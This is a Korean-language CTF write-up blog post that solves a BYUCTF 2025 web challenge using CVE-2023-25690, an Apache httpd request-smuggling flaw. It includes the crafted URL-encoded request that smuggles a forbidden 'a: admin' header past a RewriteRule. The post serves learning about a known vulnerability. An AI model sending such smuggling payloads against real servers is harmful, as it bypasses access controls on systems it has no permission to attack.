 ```yaml
---
layout: post
title: "CVE-2023-25690"
summary: "Apache http 웹서버 Smuggling 요청 취약점"
author: eveheeero
date: '2025-05-18 23:27:00 +0900'
category: ['etc', 'learning']
tags: cve
thumbnail: /assets/img/posts/2025-05-18-4.png
keywords: ctf, cve, vulnerability
usemathjax: false
permalink: /blog/CVE-2023-25690/
---
```



## 배경

BYUCTF 2025 웹해킹 Willy Wonka Web 문제 풀이입니다.

## 요약

![요약 ppt 이미지](/assets/img/posts/2025-05-18-4.png){: style="max-width: 100%; height: auto;"}

- `apache http`가 URL 인코딩 된 띄어쓰기를 인식하지 못해, `GET`이나 `POST`등의 메소드가 오고 난 뒤 `다음 띄어쓰기가 올 때까지의 모든 문자`를 경로로 인식하던 취약점

## 문제 상황

![Backend](/assets/img/posts/2025-05-18-3.png){: style="max-width: 100%; height: auto;"}

![apache http 설정](/assets/img/posts/2025-05-18-2.png){: style="max-width: 100%; height: auto;"}

요청 헤더에 `a`값이 오면 플래그를 출력하는 문제지만, `apache http 서버`의 `RewriteEngine`, `RewriteRule`를 이용해 `a`헤더를 `unset`하고 있었습니다.

`점수 - 241점, 푼 팀 - 191/894팀`

## 분석 과정

관련 CVE 내용을 확인해보니 `apache httpd 2.4.55`버전까지 `HTTP`메소드 이후 캐리지 리턴이 올 때까지 전부 하나의 경로로 인식한다는 내용이 있었습니다.

원하는 요청은 다음과 같았습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


```

해당 요청 `GET` 이후 부분을 전부 `UrlEncoding`하여 진행했으나 내부 오류가 계속 났었습니다.

' ' 및 '\r\n'만을 `UrlEncoding`하니 정상적으로 실행되었습니다.

두개 요청을 합쳐야 해서 다음처럼 요청을 보냈습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


GET /name/anything HTTP/1.1


```

이를 두번째 쿼리 `HTTP/1.1` 부분 앞까지 `%20`, `%0d`, `%0a`로 치환하여 다음처럼 쿼리가 나왔고

```text
GET /name/anything%20HTTP/1.1%0d%0aa:%20admin%0d%0a%0d%0aGET%20/anything HTTP/1.1


```

위 코드는 `apache http 웹서버`에서 헤더가 하나도 없는 `/name...anything` 경로를 가진 `GET`요청으로 처리가 될 것이며, 백엔드에서는 `a: admin`헤더를 가진 요청, 헤더 없는 요청, 총 두개로 처리가 됩니다.

![공격 성공 이미지](/assets/img/posts/2025-05-18-5.png){: style="max-width: 100%; height: auto;"}

다음처럼 코드 실행해 공격 성공했습니다.

## 작성자의 글

- `Smuggling` 공격 실습을 해보아 재밌었습니다.
- 소켓 관련 내용을 다루느라 힘들었습니다. 관련 툴을 미리 제작해둬야겠습니다.

## 참조

- [dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
